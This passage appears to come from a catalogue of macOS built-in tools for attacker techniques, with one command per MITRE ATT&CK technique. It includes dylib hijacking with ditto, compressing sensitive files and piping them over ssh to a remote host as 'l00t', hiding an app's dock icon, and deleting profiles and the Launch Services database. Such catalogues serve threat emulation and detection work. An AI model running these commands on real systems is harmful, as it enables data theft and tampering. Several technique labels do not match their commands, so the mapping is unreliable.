 **Source: TBD**

| Description | Command |
|-------------|---------|
| DLL hjiacking | `ditto -V /path/to/malicious-library/malicious_library.dylib /path/to/target-library/original_library.dylib` |

## T1020 - Automated Exfiltration

**Source: TBD**

| Description | Command |
|-------------|---------|
| Copy, compress, and transfer sensitive data to a remote macOS host | `ditto -c --norsrc /home/user/sensitive-files - | ssh remote_host ditto -x --norsrc - /home/user/l00t` |

## T1027.005 - Obfuscated Files or Information: Indicator Removal from Tools

**Source: TBD**

| Description | Command |
|-------------|---------|
| Set app to run with dock icon hidden | `plutil -insert LSUIElement -string "1" /Applications/TargetApp.app/Contents/Info.plist` |

## T1078 - Valid Accounts

**Source: TBD**

| Description | Command |
|-------------|---------|
| Collect system DEP information. | `sudo profiles show -type enrollment` |

## T1485 - Data Destruction

**Source: TBD**

| Description | Command |
|-------------|---------|
| Remove configuration profiles. | `profiles remove -identifier com.profile.identifier -password <password>` |

## T1529 - System Shutdown/Reboot

**Source: TBD**

| Description | Command |
|-------------|---------|
| Delete the Launch Services database | `lsregister -delete` |

## T1187.001 - Forced Authentication: SMB/Windows Admin Shares

